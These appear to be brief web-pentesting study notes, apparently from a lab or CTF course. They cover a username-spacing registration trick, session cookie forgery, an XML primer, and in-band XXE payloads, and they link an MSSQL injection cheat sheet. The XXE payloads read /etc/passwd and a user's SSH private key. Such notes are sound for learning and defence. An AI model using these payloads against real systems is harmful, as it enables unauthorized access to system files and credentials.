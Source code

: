 
###### Rerigister a new user

1. try to register with space " admin"
2. take a look at a session cookie - decrypt - if weak craft admin cookie

###### XXE

fast xml syntax 

```
<?xml version="1.0" encoding="UTF-8"?>  -> xml prolog
<mail>                                  -> root elemnent
   <to>falcon</to>                      -> chil element
   <from>feast</from>  
   <subject>About XXE</subject>  
   <text category = "message">Teach about XXE</text>  
</mail>
```

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document.

1. In-babd XXE

```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>  
 <userInfo>  
  <firstName>falcon</firstName>  
  <lastName>&name;</lastName>  
 </userInfo>


<?xml version="1.0"?>  
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>  
<root>&read;</root>

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]><root>&read;</root>
```

### MSSQL
**error based sql injections** https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/